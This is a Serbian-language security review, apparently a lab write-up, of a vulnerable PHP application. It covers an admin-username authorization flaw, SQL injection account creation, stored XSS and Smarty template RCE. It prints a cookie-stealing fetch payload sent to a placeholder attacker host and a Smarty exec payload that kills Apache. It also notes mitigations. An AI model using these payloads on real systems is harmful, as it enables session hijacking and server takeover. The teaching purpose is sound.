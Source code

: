 # Bezbednosni pregled koda i analiza

## Zaobilaženje mehanizma autentikacije

## Eskalacija privilegija do administratorskog nivoa

Analizom koda za autorizaciju, primećeno je da se proverava samo da li je username korisnika admin. Budući da nema provere dupliranih username, uspešno smo kreirali nalog napadača pomoću SQL injekcije. Zbog diversifikacije, za metod eskalacije privilegija je ipak izabran XSS u vidu skripte koja bi se učitala samo u podacima koje vidi administrator - u tabeli korisnika. Svi korisnici mogu da ažuriraju opis svog profila pri čemu ne postoji validacija unosa. Kasnije se ti podaci koriste na nesiguran način prilikom učitavanja tabele pri čemu dolazi do **persisted XSS** ranjivosti.

```html
<script>fetch(`http://{attacker_host}:{port}/${{document.cookie}}`);</script>
```

*Exploit* sadrži jedan zahtev ka adresi napadača u kom se šalju *Cookies* koji sadrže **PHPSESSID** admina. Potom se ovaj *session id* koristi u novoj sesiji sa administratorskim pravima. Ranjivost je mogla da bude sprečena zaštitom od XSS (validacija unosa i bezbedno rukovanje ispisom vrednosti) ili sigurnom konfiguracijom *Cookies* sa ograničenjima za slanje samo preko *https* i zabranom pristupa polju *cookie* iz *JavaScript-a*.

## Izvršenje proizvoljnog koda na serveru

Analizom koda možemo primetiti par ranjivosti prilikom promene *Message of the day* poruke i njenog učitavanja. Za promenu poruke neophodno je da korisnik ima privilegije admina koje su dobijene u prethodnom zadatku. Poruka se pre slanja ne proverava i moguće je poslati bilo koji tekst ili kod koji se odmah unosi u *motd.tpl*. Ova ranjivost može dovesti do **XSS** i **RCE** napada. 

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];

        if ($message !== "") {
            $t_file = fopen("../templates/motd.tpl","w");
            fwrite($t_file, $message);
            fclose($t_file);

            $success = "Message set!";
        } else {
            $error = "Empty message";
        }
    }
```

Druga bitna ranjivost je korišćenje **Smarty** template-a. Njegov posao je da procesuje sintaksu *motd.tpl* kako bi generisao finlani HTML. **Smarty** ima ugrađenu mogućnost da izvršava i PHP kod, što može biti korisno developer-ima ali takođe čini aplikacije ranjivim. 

**RCE** postižemo tako što kao poruku dana pošaljemo maliciozan kod poput:

```php
{php}exec('pkill -f apache2');{/php}
```

Poruka će se bez provere sačuvati. *MOTD* poruke se prikazuju svim korisnicima nakon prijave na sistem. Kada se korisnik prijavi i svaki put kada se učita index stranica, aplikacija će pokušati da mu prikaže poruku dana i maliciozni kod će zbog **Smarty**-ija biti izvršen. 
